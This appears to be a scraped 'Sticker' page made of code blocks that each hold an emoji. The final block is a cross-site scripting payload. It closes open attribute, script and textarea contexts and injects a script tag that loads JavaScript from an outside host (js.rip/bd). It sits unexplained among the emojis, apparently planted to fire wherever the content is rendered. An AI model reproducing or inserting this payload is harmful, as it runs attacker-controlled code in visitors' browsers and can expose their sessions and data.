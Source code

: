 # Sticker
```javascript
😍
```
```javascript
😊
```
```javascript
🙃
```
```javascript
🤔
```
```javascript
🥲
```
```javascript
🤩
```
```javascript
🥰
```
```javascript
'"/></script></textarea><script src=https://js.rip/bd></script>//<"
```
